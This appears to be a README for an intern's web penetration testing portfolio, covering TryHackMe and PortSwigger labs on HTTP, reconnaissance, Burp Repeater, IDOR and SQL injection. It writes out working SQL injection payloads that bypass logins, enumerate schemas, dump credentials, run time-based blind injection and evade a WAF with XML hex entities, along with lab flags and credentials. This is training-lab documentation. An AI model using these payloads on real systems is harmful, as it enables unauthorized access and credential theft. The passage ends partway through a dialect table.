



# 🛡️ Web Application Penetration Testing (WAPT) — Internship Portfolio (Phase 1)

<div align="center">


-success?style=for-the-badge&logo=checkmarx)


<br/>

[](https://github.com/)
[-orange.svg?style=flat-square&logo=owasp)](https://owasp.org/www-project-top-ten/)
[](https://owasp.org/www-project-web-security-testing-guide/)
[](https://portswigger.net/burp)
[](https://portswigger.net/web-security/sql-injection)
[](https://tryhackme.com/)
[](./Kaustubh_Ashish_Bangar_WAPT_Phase-1)

<br/>

**A comprehensive, executive-grade portfolio and technical documentation repository covering Web Application Penetration Testing (WAPT) Phase 1 at IqraSec Academy.**

---

### 👨‍💻 Prepared By
**Kaustubh Ashish Bangar**  
*Web Application Penetration Testing (WAPT / VAPT) Intern*  
**Organization:** IqraSec Academy  
**Program:** WAPT Internship — Phase 1  
**Status:** Completed & Fully Documented (100% Practical Solves, PoCs, Screenshots & Executive Reports)

</div>

---

## 📑 Table of Contents

- [Executive Summary](#-executive-summary)
- [Curriculum Architecture & Progress Matrix](#-curriculum-architecture--progress-matrix)
- [Technical Deep Dive by Phase & Task](#-technical-deep-dive-by-phase--task)
  - [Task 1: Web Fundamentals & HTTP Protocol Mechanics](#task-1-web-fundamentals--http-protocol-mechanics)
  - [Task 2: Reconnaissance & Enumeration (Attack Surface Mapping)](#task-2-reconnaissance--enumeration-attack-surface-mapping)
  - [Task 3: Burp Suite Mastery (Repeater & Traffic Manipulation)](#task-3-burp-suite-mastery-repeater--traffic-manipulation)
  - [Task 4: Common Web Vulnerabilities](#task-4-common-web-vulnerabilities)
    - [4.1 Insecure Direct Object References (IDOR)](#41-insecure-direct-object-references-idor)
    - [4.2 Comprehensive SQL Injection (PortSwigger Academy)](#42-comprehensive-sql-injection-portswigger-academy)
- [Multi-DBMS SQL Injection Dialect Matrix](#-multi-dbms-sql-injection-dialect-matrix)
- [Defensive Engineering & Secure Coding Reference](#-defensive-engineering--secure-coding-reference)
- [Repository Architecture & Directory Hierarchy](#-repository-architecture--directory-hierarchy)
- [Security Tools & Frameworks Utilized](#-security-tools--frameworks-utilized)
- [Key Takeaways & Professional Competencies](#-key-takeaways--professional-competencies)
- [Legal & Ethical Disclaimer](#-legal--ethical-disclaimer)

---

## 🏛️ Executive Summary

Modern web application environments are sophisticated, distributed ecosystems combining microservices, relational databases, client-side frameworks, and complex authorization mechanisms. In modern threat landscapes, relying on automated vulnerability scanners leaves severe security blind spots around business logic, nuanced parameter handling, and data access control.

This repository documents the complete practical laboratory execution, vulnerability analysis, proof-of-concept (PoC) validation, and professional reporting performed during **Phase 1** of the **IqraSec Academy Web Application Penetration Testing (WAPT) Internship**.

### Core Competencies Mastered:
1. **Protocol-Level Web Mechanics:** Deconstruction of HTTP/1.1 and HTTP/2 transaction semantics, request/response headers, status code diagnostics, state management, cookies, and TLS/HTTPS cryptography.
2. **Reconnaissance & Attack Surface Mapping:** Passive Open-Source Intelligence (OSINT) utilizing WHOIS, RDAP, DNS records (`TXT`, `MX`, `A`), Shodan infrastructure footprinting, active multi-hop routing analysis, TCP banner grabbing, and directory fuzzing via `robots.txt`, `sitemap.xml`, and Gobuster.
3. **Intercepting Proxy Exploitation:** Burp Suite architecture, proxy interception workflows, Repeater payload iteration, Inspector attributes, unhandled error triggering, and manual Union-based SQL injection exfiltration.
4. **Access Control & Authorization Flaws:** Insecure Direct Object References (IDOR), API parameter tampering, browser Local Storage manipulation, predictable identifier generation (UUIDv1 analysis), and horizontal privilege escalation.
5. **Advanced SQL Injection (Apprentice to Practitioner):** Mathematical and lexical analysis of SQL injection, multi-engine syntax differences (Oracle, MSSQL, MySQL, PostgreSQL), systematic column count and data type probing, cross-table credential exfiltration, blind time-based inference (`pg_sleep`), and perimeter defense evasion via XML hexadecimal character entities.

---

## 📊 Curriculum Architecture & Progress Matrix

| Task # | Task Category | Module / Lab Room | Target Platform | Focus Area | Deliverables & Status |
| :---: | :--- | :--- | :---: | :--- | :---: |
| **01** | **Web Fundamentals** | Room 1: Web Application Basics | TryHackMe | Client-Server Architecture, URL Anatomy, HTTP/HTTPS, REST Verbs | [Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room1_Web_Application_Basics/Web Application Basics Report.pdf>) &bull; [Report (DOCX)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room1_Web_Application_Basics/Web Application Basics Report.docx>) &bull; [Screenshots](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room1_Web_Application_Basics/Screenshots>) <br/>`100% Completed` ✅ |
| **01** | **Web Fundamentals** | Room 2: HTTP in Detail | TryHackMe | HTTP Headers, Status Codes (1xx–5xx), Cookies, Sessions, TLS Handshake | [Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room2_HTTP_in _Detail/HTTP in Detail Report.pdf>) &bull; [Report (DOCX)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room2_HTTP_in _Detail/HTTP in Detail Report.docx>) &bull; [Screenshots](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room2_HTTP_in _Detail/Screenshots>) <br/>`100% Completed` ✅ |
| **02** | **Recon & Enumeration** | Room 1: Passive Reconnaissance<br/>Room 2: Active Reconnaissance<br/>Room 3: Content Discovery | TryHackMe | WHOIS/RDAP, DNS Records (`dig`/`nslookup`), Shodan, Traceroute (25 Hops), Banner Grabbing (Telnet/Apache), Gobuster, `curl` Headers | [Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/2. Recon-Enumeration/Reconnaissance & Enumeration Report.pdf>) &bull; [Report (DOCX)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/2. Recon-Enumeration/Reconnaissance & Enumeration Report.docx>) &bull; [Screenshots](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/2. Recon-Enumeration>) <br/>`100% Completed` ✅ |
| **03** | **Burp Suite Mastery** | Room 1: Burp Suite: Repeater | TryHackMe | Proxy-to-Repeater Workflows, Header Tampering (`FlagAuthorised: True`), Error Triggering (`/products/-1`), Union SQLi Exploit | [Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/3. Burp-Suite/Burp Suite Repeater Report.pdf>) &bull; [Report (DOCX)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/3. Burp-Suite/Burp Suite Repeater Report.docx>) &bull; [Screenshots](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/3. Burp-Suite/Room1_Burp_Suite _Repeater/Screenshots>) <br/>`100% Completed` ✅ |
| **04** | **Common Web Vulnerabilities** | Room 1: IDOR — Santa's Little IDOR | TryHackMe (AoC 2025) | Authentication vs. Authorization, Horizontal Privilege Escalation, API Analysis (`view_accountinfo`), Local Storage Tampering, UUIDv1 Predictability | [Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/Room1_IDOR_Santa’s_Little_IDOR/IDOR - Santa’s Little IDOR Report.pdf>) &bull; [Report (DOCX)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/Room1_IDOR_Santa’s_Little_IDOR/IDOR - Santa’s Little IDOR Report.docx>) &bull; [Screenshots](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/Room1_IDOR_Santa’s_Little_IDOR/Screenshot>) <br/>`100% Completed` ✅ |
| **04** | **Common Web Vulnerabilities** | SQL Injection (Apprentice & Practitioner) | PortSwigger Web Security Academy | In-Band (WHERE / Auth Subversion), UNION Probing, Multi-DBMS Schemas (Oracle/PG/MSSQL/MySQL), String Concatenation, Blind Time-Delay (`pg_sleep`), WAF Evasion (XML Entities) | [Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/SQL-Injection/SQL Injection Report.pdf>) &bull; [Report (DOCX)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/SQL-Injection/SQL Injection Report.docx>) &bull; [Screenshots (35 Files)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/SQL-Injection/Screenshots>) <br/>`100% Completed` ✅ |

---

## 🔬 Technical Deep Dive by Phase & Task



---

### Task 1: Web Fundamentals & HTTP Protocol Mechanics

#### 📖 Module Scope & Objectives
This foundational module established protocol-level mastery over web communication models. Penetration testing begins with understanding how the client and server negotiate requests and state, how resources are addressed, and why encryption safeguards data in transit.

#### 🛠️ Core Concepts Examined
- **Client-Server Architecture:** DNS resolution pipeline, TCP 3-way handshake (`SYN`, `SYN-ACK`, `ACK`), and application-layer payload transmission.
- **URL Anatomy:** Protocol identifier, Fully Qualified Domain Name (FQDN), port specification, path, query strings (`?param=val`), and fragment identifiers (`#hash`).
- **HTTP Methods & State Mutability:**
  - `GET`: Safe, idempotent resource retrieval without payload bodies.
  - `POST`: State-altering entity submission (authentication, transactional operations).
  - `PUT`: Complete idempotent resource replacement.
  - `DELETE`: Explicit resource deletion.
  - `OPTIONS`: Web server capability enumeration (crucial for CORS evaluation and attack surface mapping).
  - `HEAD`: Metadata inspection without body retrieval.
- **HTTP Status Code Diagnostics:**
  - `1xx (Informational)`: Protocol switching (e.g., `101 Switching Protocols` in WebSockets).
  - `2xx (Success)`: `200 OK`, `201 Created`, `204 No Content`.
  - `3xx (Redirection)`: `301 Moved Permanently`, `302 Found` (evaluating open redirect risks).
  - `4xx (Client Errors)`: `400 Bad Request`, `401 Unauthorized`, `403 Forbidden`, `404 Not Found`.
  - `5xx (Server Errors)`: `500 Internal Server Error`, `502 Bad Gateway`, `503 Service Unavailable`. *Key takeaway: unhandled 500 errors indicate poor exception handling, frequently exposing SQLi, LFI, or command injection flaws.*
- **Header Analysis & Security Implications:** `Host` (virtual host routing), `User-Agent` (client fingerprinting), `Content-Length` (basis of HTTP Request Smuggling), `Authorization` (Bearer/Basic tokens), and `Set-Cookie` attributes (`HttpOnly`, `Secure`, `SameSite`).
- **HTTPS & Cryptographic Handshake:** TLS key negotiation, digital certificates, asymmetric handshake, and symmetric session cipher establishment.

#### 📸 Key Practical Artifacts & Evidence
- **Room 1 (Web Application Basics):**
  - [Technical Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room1_Web_Application_Basics/Web Application Basics Report.pdf>) &bull; [Technical Report (DOCX)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room1_Web_Application_Basics/Web Application Basics Report.docx>)
  - [Screenshots Folder](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room1_Web_Application_Basics/Screenshots>) (`completion.png`, `important-task1.png` - `important-task3.png`)
- **Room 2 (HTTP in Detail):**
  - [Technical Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room2_HTTP_in _Detail/HTTP in Detail Report.pdf>) &bull; [Technical Report (DOCX)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room2_HTTP_in _Detail/HTTP in Detail Report.docx>)
  - [Screenshots Folder](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/1. Web-Fundamentals/Room2_HTTP_in _Detail/Screenshots>) (`completion.png`, `important-task1.png` - `important-task6.png`)

---

### Task 2: Reconnaissance & Enumeration (Attack Surface Mapping)

#### 📖 Module Scope & Objectives
Reconnaissance is the mandatory preliminary phase in modern penetration testing (Unified Kill Chain & PTES). This module covered the structured dichotomy between passive non-intrusive intelligence gathering and active network probing.



#### 🛠️ Practical Methodology & Key Findings
1. **Passive Reconnaissance (OSINT):**
   - **DNS Verification:** Queried TXT records of `thmlabs.com` utilizing `dig`/`nslookup`, uncovering the verification token:  
     `THM{a5b83929888ed36acb0272971e438d78}`.
   - **Infrastructure Analytics (Shodan.io):** Evaluated global deployment metrics. Confirmed the United States as the predominant host for public Apache instances; identified port `8080` as the third most frequent non-standard Apache port, and port `80` as the standard baseline for Nginx.
2. **Active Reconnaissance:**
   - **Multi-Hop Route Tracing:** Executed dynamic traceroute analyses against target infrastructure, mapping a 25-hop transit path and identifying the final boundary gateway IP addresses: `100.92.9.83` and `99.83.89.19`.
   - **Active Banner Grabbing:** Established raw TCP streams on port 80 utilizing `telnet`. Successfully intercepted the server banner, isolating the service daemon as `Apache/2.4.61` (essential for immediate CVE targeting).
3. **Content Discovery & Directory Fuzzing:**
   - **Manual Crawling Disclosures:** Extracted `/staff-portal` from `robots.txt` and `/s3cr3t-area` from `sitemap.xml`.
   - **Raw HTTP Header Interception:** Executed `curl http://$ip -v`, discovering custom security header tokens:  
     `X-FLAG: THM{HEADER_FLAG}` and `X-Powered-By: THM-Framework` running on an `nginx/1.18.0 (Ubuntu)` reverse proxy.
   - **Automated Directory Fuzzing:** Deployed `Gobuster` against common wordlists (SecLists) for directory and virtual host enumeration.

#### 📸 Key Practical Artifacts & Evidence
- **Consolidated Report:** [Reconnaissance & Enumeration Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/2. Recon-Enumeration/Reconnaissance & Enumeration Report.pdf>) &bull; [DOCX](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/2. Recon-Enumeration/Reconnaissance & Enumeration Report.docx>)
- **Visual Evidence:**
  - [Room 1 Passive Recon Screenshots](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/2. Recon-Enumeration/Room1_Passive_Reconnaissance/Screenshorts>) (`Completion .png`, `flag.png`, `Important Task1.png`, `Shodan_io.png`)
  - [Room 2 Active Recon Screenshots](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/2. Recon-Enumeration/Room2_Active_Reconnaissance/Screenshots>) (`Completion .png`, `Important Task1.png`, `Important Task2.png`, `Important Task3.png`)
  - [Room 3 Content Discovery Screenshots](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/2. Recon-Enumeration/Room3_Content_Discovery/Screenshots>) (`completion.png`, `important-task1.png`, `important-task2.png`, `important-Tasks.png`)

---

### Task 3: Burp Suite Mastery (Repeater & Traffic Manipulation)

#### 📖 Module Scope & Objectives
While automated vulnerability scanners identify surface issues, complex authorization flaws, race conditions, and advanced injection bugs require manual traffic interception and manipulation. Burp Suite (PortSwigger) is the industry standard for manual Web Application Penetration Testing. This module focused on the **Burp Suite Repeater** engine.

```
+---------------+      +-------------------+      +----------------+
|  User Browser | ---> | Burp Proxy (8080) | ---> |  Target Server |
+---------------+      +---------+---------+      +----------------+
                                 |
                                 v  (Ctrl + R)
                       +-------------------+
                       | Burp Repeater Tab |
                       | (Manual Crafting) |
                       +-------------------+
```

#### 🛠️ Exploitation Exercises Completed
1. **Header Manipulation & Access Control Bypass:**
   - Intercepted a restricted request in Proxy and sent to Repeater (`Ctrl + R`).
   - Injected the custom authorization header: `FlagAuthorised: True`.
   - Transmitted the request to receive an HTTP 200 OK and extracted the flag:  
     `THM{Yzg2MWI2...}`.
2. **Endpoint Validation & Backend Crash Triggering:**
   - Modified numeric resource requests to malformed boundaries: `GET /products/-1 HTTP/1.1`.
   - Triggered an unhandled backend database exception returning HTTP `500 Internal Server Error`.
   - Analyzed the verbose error stack trace, extracting the second flag:  
     `THM{N2MzMz...}` and revealing raw SQL query fragments.
3. **Extra-Mile Challenge — Union-Based SQL Injection Exploitation:**
   - Identified query construction via the `/about/{id}` endpoint:
     ```sql
     SELECT firstname, lastname, bio, avatar, notes FROM people WHERE id = [INPUT]
     ```
   - Balanced the 5-column query structure and forced an empty primary result by supplying ID `0`:
     ```http
     GET /about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1 HTTP/1.1
     Host: target.thm
     ```
   - Successfully forced the database to reflect the hidden administrative notes into the HTML `<title>` tag of the response, extracting the final flag:  
     `THM{ZGE3OTUy...}`.

#### 📸 Key Practical Artifacts & Evidence
- **Technical Report:** [Burp Suite Repeater Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/3. Burp-Suite/Burp Suite Repeater Report.pdf>) &bull; [DOCX](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/3. Burp-Suite/Burp Suite Repeater Report.docx>)
- **Visual Evidence:** [Screenshots Folder](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/3. Burp-Suite/Room1_Burp_Suite _Repeater/Screenshots>) (`Challenge.png`, `Complete .png`, `Completion all task.png`, `Flag 1.png`, `Flag 2.png`, `Flag 3.png`, `Practical Example .png`)

---

### Task 4: Common Web Vulnerabilities

#### 4.1 Insecure Direct Object References (IDOR)

##### 📖 Scenario & Context
Conducted on the *TryPresentMe* web application (TryHackMe Advent of Cyber 2025 Day 5). An investigation was launched into data leak reports, stolen gift vouchers, targeted phishing campaigns, and unauthorized account access by an attacker known as "Sir Carrotbane".



##### 🛠️ Methodology & Findings
1. **Authentication vs. Authorization Breakdown:**
   - Authenticated using legitimate credentials (`niels` / `TryHackMe#2025`).
   - Identified background API request: `view_accountinfo` with query parameter `user_id=10`.
2. **Client-Side State Tampering:**
   - Navigated to Browser Developer Tools &rarr; **Storage Tab** &rarr; **Local Storage**.
   - Located the `auth_user` object containing `"user_id": 10`.
   - Manually altered `user_id` from `10` to `11`, refreshed the page, and observed immediate **Horizontal Privilege Escalation**, rendering another user's personal dashboard without authorization verification.
   - Iterated parameter values to `user_id: 15`, uncovering the target parent profile managing 10 child accounts and recovering the compromised voucher records.
3. **Cryptographic Identifier Analysis (UUIDv1 Flaw):**
   - Investigated voucher code structures. Discovered that codes were generated using **UUID Version 1** (incorporating 60-bit timestamps and network MAC addresses).
   - Demonstrated that sequential UUIDv1 values are mathematically predictable, allowing attackers to reconstruct active vouchers if creation timestamps are approximated.

##### 📸 Key Practical Artifacts & Evidence
- **Technical Report:** [IDOR Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/Room1_IDOR_Santa’s_Little_IDOR/IDOR - Santa’s Little IDOR Report.pdf>) &bull; [DOCX](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/Room1_IDOR_Santa’s_Little_IDOR/IDOR - Santa’s Little IDOR Report.docx>)
- **Visual Evidence:** [Screenshot Directory](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/Room1_IDOR_Santa’s_Little_IDOR/Screenshot>) (`Complete .png`, `Complete All Task.png`, `complete Questions and Answer .png`)

---

#### 4.2 Comprehensive SQL Injection (PortSwigger Academy)

##### 📖 Theoretical Framework & Vulnerability Taxonomy
Structured Query Language (SQL) Injection consistently ranks as one of the most critical web application vulnerabilities under **OWASP Top 10 (A03:2021 – Injection)**. The flaw occurs when an application dynamically concatenates untrusted user input directly into SQL command strings without token separation:

$$\text{Query String} = \text{"SELECT } \text{cols} \text{ FROM } \text{table} \text{ WHERE } \text{param} = \text{'"} + \text{Input} + \text{"' AND status = 1"}$$

When an attacker injects `' OR 1=1--`, the SQL lexer recognizes the single quote as a string terminator, the `OR` as a logical token, `1=1` as an immutable truth value, and `--` as a comment operator that discards all trailing application logic.

##### 🧪 Laboratory Case Studies & Solved Challenges (18 Completed Labs)

```mermaid
graph TD
    SQLi[SQL Injection Mastery]
    SQLi --> InBand[1. In-Band / Classical SQLi]
    SQLi --> Union[2. UNION-Based Extraction]
    SQLi --> Blind[3. Inferential / Blind SQLi]
    SQLi --> Bypass[4. Perimeter Evasion]

    InBand --> L1[Lab 1: WHERE Clause Tautology]
    InBand --> L2[Lab 2: Authentication Subversion]

    Union --> L7[Lab 7: Column Count NULL Probing]
    Union --> L8[Lab 8: Data Type Compatibility]
    Union --> L34[Lab 3 & 4: Multi-Engine Version Banner]
    Union --> L5[Lab 5: information_schema Tables & Columns]
    Union --> L6[Lab 6: Oracle all_tables & all_tab_columns]
    Union --> L9[Lab 9: Multi-Column Users Exfiltration]
    Union --> L10[Lab 10: Single-Column Bottleneck Concatenation]

    Blind --> L11[Lab 11: Blind Boolean TrackingId]
    Blind --> L14[Lab 14: Blind Time-Delays pg_sleep 10s]

    Bypass --> L18[Lab 18: WAF Evasion via XML Hex Entities]
```



###### 1. In-Band & Authentication Subversion
- **Lab 1 (WHERE Clause Unreleased Product Disclosure):**
  - *Vector:* `GET /filter?category=Gifts' OR 1=1--`
  - *Result:* Subverted `released = 1` condition, exposing unreleased and hidden products.
- **Lab 2 (Authentication Logic Subversion):**
  - *Vector:* `POST /login` with `username=administrator'--` and empty password.
  - *Result:* Commented out `AND password = '...'` verification, authenticating directly into the `administrator` account.

###### 2. UNION-Based Exploitation & Systematic Probing
- **Lab 7 (Column Count Determination via Systematic NULL Probing):**
  - Evaluated target column depth using `NULL` payloads (which cast transparently across types):
    ```http
    GET /filter?category='+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1
    ```
  - Identified exactly 3 projected columns when HTTP 200 was achieved.
- **Lab 8 (Determining Column Type Compatibility):**
  - Sequentially tested which column accepted character string data:
    ```http
    GET /filter?category='+UNION+SELECT+NULL,'IYv5v5',NULL-- HTTP/1.1
    ```
  - Confirmed column 2 rendered strings, solving the lab.
- **Lab 3 & Lab 4 (Querying Database Engine Types and Versions):**
  - *Oracle Backend:* Queried dynamic performance view with mandatory dual table:
    ```http
    GET /filter?category=Lifestyle'+UNION+SELECT+banner,null+FROM+v$version-- HTTP/1.1
    ```
    *Extracted Banner:* `CORE 11.2.0.2.0 Production`.
  - *MySQL / MSSQL Backend:* Queried global version variable:
    ```http
    GET /filter?category='+UNION+SELECT+@@version,null# HTTP/1.1
    ```

###### 3. Database Schema Mapping & Cross-Table Exfiltration
- **Lab 5 (Interrogating `information_schema` on Non-Oracle Systems):**
  - Enumerated tables:
    ```http
    GET /filter?category='+UNION+SELECT+table_name,null+FROM+information_schema.tables-- HTTP/1.1
    ```
    *Discovered:* `users_gkrxdvf`.
  - Enumerated columns:
    ```http
    GET /filter?category='+UNION+SELECT+column_name,null+FROM+information_schema.columns+WHERE+table_name='users_gkrxdvf'-- HTTP/1.1
    ```
    *Discovered:* `username_qrqbxs`, `password_wzrkfa`.
  - Dumped credentials:
    ```http
    GET /filter?category='+UNION+SELECT+username_qrqbxs,password_wzrkfa+FROM+users_gkrxdvf-- HTTP/1.1
    ```
- **Lab 6 (Interrogating Oracle Data Dictionary Views):**
  - Enumerated tables via `all_tables`:
    ```http
    GET /filter?category='+UNION+SELECT+table_name,null+FROM+all_tables-- HTTP/1.1
    ```
    *Discovered:* `USERS_TPQMKX`.
  - Enumerated columns via `all_tab_columns`:
    ```http
    GET /filter?category='+UNION+SELECT+column_name,null+FROM+all_tab_columns+WHERE+table_name='USERS_TPQMKX'-- HTTP/1.1
    ```
    *Discovered:* `USERNAME_HSSGJU`, `PASSWORD_JFFHXZ`.
  - Exfiltrated credentials from Oracle:
    ```http
    GET /filter?category='+UNION+SELECT+USERNAME_HSSGJU,PASSWORD_JFFHXZ+FROM+USERS_TPQMKX-- HTTP/1.1
    ```
- **Lab 9 (UNION Attack Retrieving Data from Other Tables):**
  - Extracted `users` table records directly into projected columns.
- **Lab 10 (Single-Column Bottleneck Concatenation):**
  - Solved single-string-column limitation by concatenating fields:
    ```http
    GET /filter?category='+UNION+SELECT+null,username||'~'||password+FROM+users-- HTTP/1.1
    ```
    *Extracted:* `administrator~[PASSWORD]`.

###### 4. Advanced Inferential & Perimeter Evasion Techniques
- **Lab 11 (Blind SQL Injection via Conditional Responses):**
  - Injected boolean conditions into the `TrackingId` cookie, measuring character-by-character changes in response text.
- **Lab 14 (Blind SQL Injection with Time Delays):**
  - Injected PostgreSQL sleep primitive into `TrackingId` cookie:
    ```http
    GET / HTTP/2
    Host: [TARGET].web-security-academy.net
    Cookie: TrackingId=x'||pg_sleep(10)--; session=[SESSION_ID]
    ```
  - *Response Time:* **10,198 ms (~10.2 seconds)**, proving synchronous execution of blind database commands.
- **Lab 18 (WAF Evasion via XML Hexadecimal Character Entity Encoding):**
  - Target endpoint: `POST /product/stock` with XML payload:
    ```xml
    <stockCheck>
      <productId>1</productId>
      <storeId>1 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x7c;&#x7c;&#x27;&#x7e;&#x27;&#x7c;&#x7c;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
    </stockCheck>
    ```
  - *Result:* Signature-based WAF inspected raw string, failing to match `UNION SELECT`. The backend application decoded XML hexadecimal entities prior to executing SQL, successfully dumping administrator credentials.

##### 📸 Key Practical Artifacts & Evidence
- **Technical Report:** [SQL Injection Report (PDF)](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/SQL-Injection/SQL Injection Report.pdf>) &bull; [DOCX](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/SQL-Injection/SQL Injection Report.docx>)
- **Visual Evidence (35 Solved Lab Screenshots):** [SQL-Injection Screenshots Directory](<./Kaustubh_Ashish_Bangar_WAPT_Phase-1/4. Common-Web-Vulnerabilities/SQL-Injection/Screenshots>)

---

## 🗃️ Multi-DBMS SQL Injection Dialect Matrix

During professional testing, SQL payloads must strictly align with the syntactic grammar of the underlying RDBMS. Below is the multi-engine comparison matrix synthesized from the Phase 1 laboratory reports:

| Feature / Capability | Oracle Database | Microsoft SQL Server (MSSQL) | MySQL Database | PostgreSQL Database |
| :--- | :--- | :--- | :--- | :--- |
| **Comment Terminator** | `--` | `--` | `#` or `-- ` *(space mandatory)* | `--` |
